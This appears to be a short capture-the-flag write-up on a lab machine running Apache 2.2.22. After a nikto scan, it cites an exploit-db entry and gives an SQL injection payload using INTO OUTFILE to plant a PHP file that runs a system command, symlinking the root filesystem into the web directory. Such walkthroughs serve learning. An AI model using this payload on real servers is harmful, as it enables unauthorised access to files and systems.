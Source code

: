 ### Writeup 3
>suEXEC privilege elevation 

When we scanned the machine with nikto we saw that the machine is using `Server: Apache/2.2.22 (Ubuntu)`

So we searched for exploits for this version of apache and found this exploit: https://www.exploit-db.com/exploits/27397


We will have to do an SQL injection to get acces to the machine with this exploit





```php
SELECT '<?php  system("ln -sf / test99.php"); symlink("/", "test99.php"); ?>' into outfile '/var/www/forum/templates_c/suexec.php'  
```

We have to go to https://192.168.56.101/forum/templates_c/suexec.php and we now have a folder called test99.php redirecting to the racine folder
